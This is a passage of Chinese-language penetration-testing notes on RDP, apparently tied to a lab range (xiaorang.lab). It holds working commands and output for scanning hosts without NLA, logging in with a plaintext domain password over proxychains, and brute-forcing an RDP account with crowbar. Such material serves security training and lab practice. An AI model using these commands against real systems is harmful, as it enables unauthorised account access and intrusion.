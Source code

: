 使用 CME 的 RDP 模块，扫描未开启 NLA 的主机：

```console
root@kali:~# cme rdp 172.22.2.34
RDP         172.22.2.34     3389   CLIENT01         [*] Windows 10 or Windows Server 2016 Build 18362 (name:CLIENT01) (domain:xiaorang.lab) (nla:False)
```

使用 MSF 的 RDP 脚本，扫描未开启 NLA 的主机：

```console
msf6 > use scanner/rdp/rdp_scanner
msf6 auxiliary(scanner/rdp/rdp_scanner) > set rhosts 172.22.2.34/24
rhosts => 172.22.2.34/24
msf6 auxiliary(scanner/rdp/rdp_scanner) > set threads 30
threads => 30
msf6 auxiliary(scanner/rdp/rdp_scanner) > run

[*] 172.22.2.3:3389       - Detected RDP on 172.22.2.3:3389       (name:DC) (domain:XIAORANG) (domain_fqdn:xiaorang.lab) (server_fqdn:DC.xiaorang.lab) (os_version:10.0.14393) (Requires NLA: Yes)
[*] 172.22.2.16:3389      - Detected RDP on 172.22.2.16:3389      (name:MSSQLSERVER) (domain:XIAORANG) (domain_fqdn:xiaorang.lab) (server_fqdn:MSSQLSERVER.xiaorang.lab) (os_version:10.0.14393) (Requires NLA: Yes)
[*] 172.22.2.34:3389      - Detected RDP on 172.22.2.34:3389      (name:CLIENT01) (domain:XIAORANG) (domain_fqdn:xiaorang.lab) (server_fqdn:CLIENT01.xiaorang.lab) (os_version:10.0.18362) (Requires NLA: No)
[*] Auxiliary module execution completed
```

使用 [rdesktop](https://github.com/rdesktop/rdesktop) 连接未开启 NLA 的主机，修改已经过期的密码：

```console
root@kali:~# proxychains4 -q rdesktop 172.22.2.34 -d xiaorang.lab -u William -p Willg1UoO6Jt -z
Autoselecting keyboard map 'en-us' from locale
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Connection established using SSL.
```

> 注：rdesktop 只能用来连接未开启 NLA 的主机。它的 NLA (CredSSP) 支持不完整，在连接开启了 NLA 的 Windows 主机时会产生错误。详情见：[https://github.com/rdesktop/rdesktop/issues/279](https://github.com/rdesktop/rdesktop/issues/279)。

## RDP Brute Force Attack

[crowbar](https://github.com/galkan/crowbar) 使用示例：

```console
root@kali:~# crowbar -b rdp -s 192.168.86.61/32 -u victim -C /root/words.txt -n 1
2017-10-10 14:59:55 START
2017-10-10 14:59:55 Crowbar v0.3.5-dev
2017-10-10 14:59:55 Trying 192.168.86.61:3389
2017-10-10 15:00:08 RDP-SUCCESS : 192.168.86.61:3389 - victim:s3cr3t
2017-10-10 15:00:08 STOP
```
